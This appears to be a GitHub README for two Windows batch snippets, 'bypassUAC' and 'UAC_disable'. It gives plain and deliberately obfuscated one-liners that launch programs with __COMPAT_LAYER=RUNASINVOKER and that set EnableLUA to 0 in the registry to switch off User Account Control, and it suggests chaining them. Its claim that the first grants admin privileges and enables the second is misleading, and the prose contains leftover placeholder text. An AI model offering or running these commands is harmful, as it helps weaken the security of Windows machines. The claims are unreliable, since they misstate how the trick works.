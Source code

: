 # bypassUAC

Program bypasses the UAC prompt for Admin privileges when running a program.

-   Replace [Example.exe] with the file_path and filename of the target program.
-   Run bypassUAC.cmd
-   The target program will run as the currently logged in user and bypass the UAC prompt.

    *start "" /b cmd /min /C "set __COMPAT_LAYER=RUNASINVOKER && Example.exe"*

If you like complexity :)

    setlocal enabledelayedexpansion & set "__COMPAT_LAYER=RUNASINVOKER" & start "" /min cmd /C "setlocal enabledelayedexpansion ^& (echo ^^^!__COMPAT_LAYER^^^! ^& start "" /min Example.exe)"



# UAC_disable

This script disables the User Access Control (UAC) in the Windows Registry. Run the script throughUAC_Bypass to circumvent UAC's self-preservation module.enter code here

    reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f

If you like complexity :)

    setlocal enabledelayedexpansion & set "command=reg.exe" & set "args=ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f" & set "cmd=!command! !args!" & cmd /V /C "!cmd!"
